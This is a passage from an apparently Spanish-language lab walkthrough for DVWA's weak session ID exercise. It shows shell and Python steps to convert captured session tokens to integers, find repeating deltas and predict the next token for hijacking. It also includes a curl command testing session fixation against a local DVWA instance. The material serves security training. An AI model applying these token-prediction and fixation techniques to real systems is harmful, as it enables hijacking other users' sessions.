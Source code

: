 ```codigo
00000000000004n0rcsjvnd4o5
```

5. Recarga la página y observa si accedes a una sesión válida.

Si lo haces justo después de que otro usuario haya usado ese token, podrías secuestrar su sesión.
⚠️ Asegúrate de que el charset realmente encaje con base 32. Si hay letras fuera del rango a-v, podrías necesitar base 36.

### 🔁 Repetir el análisis de deltas

Una vez convertidos a enteros, puedes usar el mismo bloque para calcular deltas y buscar patrones:

```bash
paste tokens_int.txt <(tail -n +2 tokens_int.txt) \
  | awk '{if(NR>1) print $2-$1}' | sort | uniq -c | sort -nr | head
```

### 🔮 Intentar predecir el siguiente token

Si detectamos un delta repetido, podemos:

- Tomar el último entero.
- Sumar el delta.
- Convertirlo de nuevo a base32 o base 36.

```bash
python3 -c 'print(base_repr(VALOR, 32))'
```

Para esto, puedes usar numpy.base_repr() o escribir una función personalizada si no tienes NumPy instalado.


## 4 Medium

Repetimos la cosecha cambiando a security=medium.

```bash
COOKIE='PHPSESSID=TUCOKIEAQUI; security=medium'
# Repite el bucle de captura (quizás 2000 muestras)
```

En Medium suele mejorar la aleatoriedad (otro PRNG/semilla). Vuelve a ejecutar el análisis y compara métricas (sube la entropía, bajan colisiones).

## 5 High (y pruebas de fijación/hijacking)

Con security=high, DVWA normalmente utiliza IDs robustos. Aun así, prueba session fixation:

1. Fijar una cookie "a mano" (suponiendo que la app aceptara el valor que impones):

```bash
curl -i -s \
  -b 'PHPSESSID=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA' \
  'http://127.0.0.1:8080/login.php' | head
```
